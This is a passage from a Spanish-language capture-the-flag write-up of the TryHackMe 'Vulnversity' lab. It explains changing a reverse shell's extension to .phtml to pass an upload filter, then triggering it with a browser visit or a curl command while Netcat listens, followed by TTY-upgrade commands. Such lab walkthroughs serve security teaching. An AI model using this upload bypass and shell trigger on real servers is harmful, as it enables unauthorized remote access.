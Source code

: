 Con esta información, ya sabemos que tipo de archivo es válido para subir en la ruta `internal`, por lo que procederemos a cambiar la extensión de nuestro archivo y subirlo una última vez.

Una vez el archivo está subido, podemos ponernos en escucha por el puerto que hayamos establecido en nuestra `reverse shell` a través de `Netcat`. A partir de aquí podemos hacer dos cosas:

Podemos navegar a la dirección en la que está subido nuestro archivo (tal como lo indica la plataforma de _TryHackMe_), es decir, entrar a:

```
http://<dirección IP>:3333/internal/uploads/nombreDeLaReverseShell.phtml
```
O, por otra parte, y sin dejar la consola, utilizar el comando `curl`:

```
curl http://<dirección IP>:3333/internal/uploads/nombreDeLaReverseShell.phtml
```

Ambas opciones, nos conseguirán una _consola_ dentro de la máquina víctima.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-25-Vulnversity-TryHackMe/13.png)

Es importante aclarar que la _consola_ que acabamos de conseguir, no es nada interactiva, esto quiere decir que si quisiéramos limpiar la _consola_ utilizando `Ctrl + L`, no pasará nada, así mismo si quisiéramos desplazarnos utilizando las `flechas` del teclado, no nos será posible hacerlo, para ello deberemos de realizar el respectivo tratamiento de la `TTY`, para lo cual haremos lo siguiente:

```bash
script /dev/null -c bash

Ctrl + Z

stty raw -echo; fg
reset
xterm

export TERM=xterm
export SHELL=bash

stty rows <valor> columns <valor>
```
